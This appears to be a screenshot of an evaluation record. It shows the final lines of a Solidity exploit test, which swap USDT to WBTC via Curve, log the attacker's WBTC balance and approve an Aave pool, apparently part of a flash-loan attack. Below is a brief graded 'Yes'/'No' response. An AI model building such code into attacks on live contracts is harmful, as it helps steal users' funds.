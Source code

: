 │     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(usdt),                                                                                                                                                                                                                                 │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       10000000000000,                                                                                                                                                                                                                                │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of attacker:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     WBTC.approve(address(aaveLendingPool), 2702430000000);                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│     return true;                                                                                                                                                                                                                                     │
│   }                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "Yes", "2": "No"}                                                                                                                                                                                                                              │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯